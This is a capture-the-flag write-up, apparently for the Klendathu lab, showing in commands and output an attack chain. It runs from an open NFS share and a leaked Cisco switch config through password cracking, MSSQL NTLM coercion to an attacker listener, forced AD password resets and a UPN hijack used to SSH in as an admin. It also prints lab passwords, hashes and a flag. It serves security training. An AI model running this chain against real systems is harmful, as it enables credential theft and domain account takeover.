









As usual I will start by checking the first 1000 UDP services:

```bash
└─$ nmap -F -sU 10.13.38.37
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 09:49 +0100
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 80.83% done; ETC: 09:50 (0:00:06 remaining)
Nmap scan report for 10.13.38.37
Host is up (0.024s latency).
Not shown: 59 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)
PORT    STATE SERVICE
111/udp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 57.20 seconds

```

And all the TCP services as well:

```bash
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.7 (protocol 2.0)
| ssh-hostkey: 
|   256 d6:60:45:43:4f:a1:93:21:bf:1e:dc:c3:62:65:e0:e5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPgM8hQ4/43IVAIemSI7tebK7+KbxqQylaHDu/aeeOfn6Iq/HKQgB4RPCQ5mhZdOTQH5vrbrU+n/WJvKiFwVG+Q=
|   256 11:69:f0:03:85:9f:f4:ea:15:29:d4:c2:65:5d:27:eb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBUNFG3sOb0L/xNVWvM7LLWetQ57KcbX/XlNoYgsPouC
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      20048/tcp   mountd
|   100005  1,2,3      20048/tcp6  mountd
|   100005  1,2,3      20048/udp   mountd
|   100005  1,2,3      20048/udp6  mountd
|   100021  1,3,4      36559/udp6  nlockmgr
|   100021  1,3,4      39753/tcp   nlockmgr
|   100021  1,3,4      40469/tcp6  nlockmgr
|_  100021  1,3,4      51685/udp   nlockmgr
2049/tcp  open  nfs      syn-ack ttl 63 3-4 (RPC #100003)
20048/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
39627/tcp open  status   syn-ack ttl 63 1 (RPC #100024)
39753/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/16%OT=22%CT=%CU=42855%PV=Y%DS=2%DC=T%G=N%TM=69B7C5D3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=FE%TI=Z%CI=Z%II=I%TS=A)OPS(O1
OS:=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW
OS:7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=
OS:Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%R
OS:D=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD
OS:=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 31.050 days (since Fri Feb 13 08:45:34 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.15 ms 10.10.14.1
2   22.48 ms 10.13.38.37

```

# NFS

One of  first step I want to approach is checking that NFS exports as it might allow me to check for possible shares so early on when I still have no valid account so far:

```bash
└─$ showmount -e 10.13.38.37                                        
Export list for 10.13.38.37:
/mnt/nfs_shares *
                   
```

Ok, something is going on so I am mounting it now but I don't see anything?

```bash
sudo mount -t nfs 10.13.38.37:/mnt/nfs_shares . -o nolock,vers=3
                                                                                                                                                                                                                                                                            
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ mount | grep nfs
10.13.38.37:/mnt/nfs_shares on /home/user/Downloads/Klendathu type nfs (rw,relatime,vers=3,rsize=524288,wsize=524288,namlen=255,hard,nolock,fatal_neterrors=none,proto=tcp,timeo=600,retrans=2,sec=sys,mountaddr=10.13.38.37,mountvers=3,mountport=20048,mountproto=udp,local_lock=all,addr=10.13.38.37)
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ ls -laR .
.:
total 8
drwxrwxr-x 2 user user 4096 Mar 16 09:48 .
drwxr-xr-x 6 user user 4096 Mar 16 09:48 ..

```

Now I can indeed write but I am a bit unsure what could it lead to?



But might be that I need to inject some NTLM hashes via coercion? WAIT, I mapped on a folder and I can see traces of a Cisco switch backup?

```bash
─(user㉿kali-almi)-[~/Downloads/Klendathu/nfs]
└─$ ll    
total 4
-rw-r--r-- 1 root root 3488 Apr 11  2024 Switch344_running-config.cfg
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu/nfs]
└─$ cat Switch344_running-config.cfg    
Switch344#show running-config
Building configuration...

Current configuration : 4716 bytes
!
version 12.2
no service pad
service timestamps debug datetime msec
service timestamps log datetime msec
no service password-encryption
!
hostname Switch
!
boot-start-marker
boot-end-marker
!
enable secret 5 $1$j61qxI/P$dPYII5uCu83j8/FIuT2Wb/
enable password C1sc0
!
no aaa new-model
system mtu routing 1500
ip subnet-zero
!
ip dhcp pool vlan2
   network 192.168.8.0 255.255.255.0
   default-router 192.168.8.254
   dns-server 208.67.222.222 208.67.220.220
   lease 7
!
ip dhcp pool vlan3
   network 192.168.9.0 255.255.255.0
   default-router 192.168.9.254
   dns-server 208.67.222.222 208.67.220.220
   lease 7
!
ip dhcp snooping vlan 2-3
no ip dhcp snooping information option
ip dhcp snooping
!
!
crypto pki trustpoint TP-self-signed-2135278336
 enrollment selfsigned
 subject-name cn=IOS-Self-Signed-Certificate-2135278336
 revocation-check none
 rsakeypair TP-self-signed-2135278336
!
!
spanning-tree mode pvst
spanning-tree extend system-id
!
vlan internal allocation policy ascending
!
!
!
interface FastEthernet0/1
 switchport access vlan 2
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/2
 switchport access vlan 2
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/3
 switchport access vlan 2
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/4
 switchport access vlan 2
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/5
 switchport access vlan 2
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/6
 switchport access vlan 2
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/7
 switchport access vlan 3
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/8
 switchport access vlan 3
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/9
 switchport access vlan 3
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/10
 switchport access vlan 3
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/11
 switchport access vlan 3
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/12
 switchport access vlan 3
 switchport mode access
 spanning-tree portfast
 ip dhcp snooping trust
!
interface FastEthernet0/13
!
interface FastEthernet0/14
!
interface FastEthernet0/15
!
interface FastEthernet0/16
!
interface FastEthernet0/17
!
interface FastEthernet0/18
!
interface FastEthernet0/19
!
interface FastEthernet0/20
!
interface FastEthernet0/21
!
interface FastEthernet0/22
!
interface FastEthernet0/23
!
interface FastEthernet0/24
 switchport mode trunk
!
interface GigabitEthernet0/1
!
interface GigabitEthernet0/2
!
interface Vlan1
 no ip address
 no ip route-cache
 shutdown
!
interface Vlan2
 ip address 192.168.8.1 255.255.255.0
 no ip route-cache
!
interface Vlan3
 ip address 192.168.9.1 255.255.255.0
 no ip route-cache
!
no ip http server
no ip http secure-server
!
control-plane
!
snmp-server community public RO 
snmp-server contact ZIM@KLENDATHU.VL
!
line con 0
line vty 0 4
 password 123456
 login
line vty 5 15
 password 123456
 login
!
end

Switch344#

```

And the crack can be easily cracked:

```bash
$1$j61qxI/P$dPYII5uCu83j8/FIuT2Wb/:football22             
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$j61qxI/P$dPYII5uCu83j8/FIuT2Wb/
Time.Started.....: Mon Mar 16 10:16:20 2026 (0 secs)
Time.Estimated...: Mon Mar 16 10:16:20 2026 (0 secs)
Kernel.Feature...: Optimized Kernel (password length 0-15 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:    47537 H/s (13.43ms) @ Accel:90 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 15126/14344385 (0.11%)
Rejected.........: 6/15126 (0.04%)
Restore.Point....: 14406/14344385 (0.10%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: mexico12 -> gitana
Hardware.Mon.#01.: Util: 19%

Started: Mon Mar 16 10:16:07 2026
Stopped: Mon Mar 16 10:16:21 2026

```

And I can see it works:  


I will move on to the Windows machines for a moment!

# Back on Track

Now here I already notices that guest users are not allowed to execute XP_DIrtree so far:



&nbsp;

Now it seems possible to use other methods to obtain the same?  


Now apparently netexec did the trick:

```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.13.38.36
[SMB] NTLMv2-SSP Username : KLENDATHU\RASCZAK
[SMB] NTLMv2-SSP Hash     : RASCZAK::KLENDATHU:134ba1ffaedff9a7:C998CFD117764F670C04B7DE30B254CF:010100000000000080CEEDE837B5DC01B2DDDE729A797EE900000000020008004F0030004D004A0001001E00570049004E002D004A00350035004800480051005100490047004400560004003400570049004E002D004A0035003500480048005100510049004700440056002E004F0030004D004A002E004C004F00430041004C00030014004F0030004D004A002E004C004F00430041004C00050014004F0030004D004A002E004C004F00430041004C000700080080CEEDE837B5DC01060004000200000008003000300000000000000000000000003000008DA5380D1E1B5D8B1ACB015F19B11F612DDF84DF00844F9CC6BC8E8ABF1F88270A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100300035000000000000000000
[*] Skipping previously captured hash for KLENDATHU\RASCZAK


```

```bash
──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ netexec mssql 10.13.38.36 -u 'zim' -p 'football22' -M mssql_coerce -o LISTENER=10.10.14.105
MSSQL       10.13.38.36     1433   SRV1             [*] Windows Server 2022 Build 20348 (name:SRV1) (domain:KLENDATHU.VL)
MSSQL       10.13.38.36     1433   SRV1             [+] KLENDATHU.VL\zim:football22 
MSSQL_CO... 10.13.38.36     1433   SRV1             [*] Commands executed successfully, check the listener for results
                                                                                                                                                               

```

And now I have some more creds, and this user seems having the possibility to reset some passwords?  


Now I have been trying to take the soft approach and kerberoast those users but I am not able to crack the password,  I could sure perform a Shadowcreds attack but I will perform a password reset because I can...

```bash
╰─ ❯ Set-DomainUserPassword -Identity Rico -AccountPassword 'Coglione1!'
[2026-03-16 12:06:49] [Set-DomainUserPassword] Principal CN=RICO,CN=Users,DC=KLENDATHU,DC=VL found in domain
[2026-03-16 12:06:50] [Set-DomainUserPassword] Password has been successfully changed for user RICO
╭─LDAP─[DC1.KLENDATHU.VL]─[KLENDATHU\RASCZAK]-[NS:10.13.38.35]
╰─ ❯ Set-DomainUserPassword -Identity Ibanez -AccountPassword 'Coglione1!'
[2026-03-16 12:07:01] [Set-DomainUserPassword] Principal CN=IBANEZ,CN=Users,DC=KLENDATHU,DC=VL found in domain
[2026-03-16 12:07:02] [Set-DomainUserPassword] Password has been successfully changed for user IBANEZ
╭─LDAP─[DC1.KLENDATHU.VL]─[KLENDATHU\RASCZAK]-[NS:10.13.38.35]
╰─ ❯ 


```

Now none of these users has interesting stuff in it so for this reason I will move on to the SRV1.

# Getting the last stretch

Now from AD i can see that only 3 users seems allowing to login via SSH:  


Where only 2 different has admin permissions so far:  


Now here I had to check again for tips and apparently this is about a nother CTF I already did about joint venture between Linux and Windows AD where Linux is broken): https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/

I need first to fix the local linux Kerberos environment with it's realm and so on..

```bash
──(root㉿kali-almi)-[/home/user/Downloads/Klendathu]
└─# cat /etc/krb5.conf
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = KLENDATHU.VL

[realms]
    KLENDATHU.VL = {
        kdc = dc1.KLENDATHU.VL
        admin_server = dc1.KLENDATHU.VL
        default_domain = KLENDATHU.VL
    }

[domain_realm]
    .KLENDATHU.VL = KLENDATHU.VL
    KLENDATHU.VL = KLENDATHU.VL 
```

Next , the sshd confif must be editied to allow kerberos authentication:



Now I need to do a a SPn hijack and abuse that GSAPI over SSH and login as Flores instead which BTW is admin:

```bash
//SPN hijack to match the user I control to an admin
─$ bloodyAD --host DC1.KLENDATHU.VL -d KLENDATHU.VL -u 'RASCZAK' -p 'starship99' set object 'ibanez' userPrincipalName -v 'leivy'
[+] ibanez's userPrincipalName has been updated
                                                                                                                                                               
//Since the UPN is same, I can use Ibanez credentials to request for an SSH admin(Leivy in this example)                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ impacket-getTGT -dc-ip 10.13.38.35 KLENDATHU.VL/leivy:'Coglione1!' -principal NT_ENTERPRISE 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in leivy.ccache
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ export KRB5CCNAME=/home/user/Downloads/Klendathu/leivy.ccache
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ klist
Ticket cache: FILE:/home/user/Downloads/Klendathu/leivy.ccache
Default principal: leivy@KLENDATHU.VL

Valid starting       Expires              Service principal
03/16/2026 14:25:57  03/17/2026 00:25:57  krbtgt/KLENDATHU.VL@KLENDATHU.VL
    renew until 03/17/2026 14:25:56
        
//SSH shell as root                                                                                                                                                       
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ ssh -K leivy@klendathu.vl@srv2.klendathu.vl
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Last failed login: Mon Mar 16 09:23:46 EDT 2026 from 10.10.14.105 on ssh:notty
There were 2 failed login attempts since the last successful login.
Last login: Fri Jun 13 03:11:34 2025 from 10.10.14.2
[leivy@KLENDATHU.VL@srv2 ~]$ 

```

# POST Exploitation

Now I can obtain anohrt flag but I can also see the saved root password?

```bash
root@srv2 ~]# ls
anaconda-ks.cfg  flag.txt  inc5543_domaincontroller_backup
[root@srv2 ~]# cat flag.txt 
KLEN{c674e08aaeeea48592817da9e9c5a10d}
[root@srv2 ~]# cat anaconda-ks.cfg 
# Generated by Anaconda 34.25.4.7
# Generated by pykickstart v3.32
#version=RHEL9
# Use text mode install
text

%addon com_redhat_kdump --disable

%end

# System language
lang en_US.UTF-8

# Network information
#network  --bootproto=static --device=ens160 --gateway=172.23.10.1 --ip=172.23.10.92 --nameserver=172.23.10.90 --netmask=255.255.255.0 --activate
network  --hostname=srv2

%packages
@^server-product-environment

%end

# Run the Setup Agent on first boot
firstboot --enable
# Do not configure the X Window System
skipx

# Generated using Blivet version 3.6.0
ignoredisk --only-use=nvme0n1
# System bootloader configuration
bootloader --location=mbr --boot-drive=nvme0n1
autopart
# Partition clearing information
clearpart --all --initlabel --drives=nvme0n1

# System timezone
timezone America/New_York --utc

# Root password
rootpw --iscrypted $6$K0nkB9PnZ1DOJZAr$GzWFDigX5/QoFje5Mq8on9JcR2ba2gZjwBwWsx1.g8HELZiRCBWdNsDeFClAep2q7e.urhvhB/N7WxBP8NskQ0

[root@srv2 ~]# 

```

And here I can see that the backup site has the backup of the domain dictionary and how to get access to Jenkins user. 

